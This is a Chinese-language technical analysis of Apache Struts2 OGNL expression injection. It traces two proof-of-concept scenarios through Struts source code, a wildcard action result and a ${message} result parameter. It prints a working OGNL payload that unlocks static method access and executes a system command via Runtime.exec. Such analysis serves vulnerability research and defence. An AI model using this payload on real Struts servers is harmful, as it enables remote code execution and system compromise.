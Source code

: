 对于POC1，主要是存在如下场景适用：

```java
<action name="*" class="com.demo.action.PageAction">
   <result>/{1}.jsp</result>
</action>
```

其中action的name为 `*` 符号，在 `org.apache.struts2.dispatcher.StrutsResultSupport#execute(ActionInvocation)` 中会对当前请求路径进行处理：

![image-20210816153036623](/media/image-20210816153036623.png)

跟进 `this.conditionalParse(this.location, invocation)` ：

```java
protected String conditionalParse(String param, ActionInvocation invocation) {
    return this.parse && param != null && invocation != null ? TextParseUtil.translateVariables(param, invocation.getStack(), new ParsedValueEvaluator() {
        public Object evaluate(String parsedValue) {
            if (StrutsResultSupport.this.encode && parsedValue != null) {
                try {
                    return URLEncoder.encode(parsedValue, "UTF-8");
                } catch (UnsupportedEncodingException var3) {
                    if (StrutsResultSupport.LOG.isWarnEnabled()) {
                        StrutsResultSupport.LOG.warn("error while trying to encode [" + parsedValue + "]", var3, new String[0]);
                    }
                }
            }

            return parsedValue;
        }
    }) : param;
}
```

可以看到第一行就是调用 `TextParseUtil#translateVariables()` 方法，这个方法底层会进行Ognl表达式解析，由此造成Ognl表达式注入。调用栈如下：

![image-20210816153329556](/media/image-20210816153329556.png)

对于POC2，主要的适用场景如下：

```java
<action name="param" class="com.demo.action.ParamAction">
    <result name="error">${message}</result>
    <result name="success" type="httpheader">
        <param name="error">305</param>
        <param name="headers.pinger">${message}</param>
    </result>
</action>
```

这个漏洞没啥好说的，至于为啥会解析 `${message}` 的值，因为攻击者传递的 `${message}` 值为：

```java
%{#context['xwork.MethodAccessor.denyMethodExecution']=false,#m=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#m.setAccessible(true),#m.set(#_memberAccess,true),#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('calc').getInputStream()),#q}
```
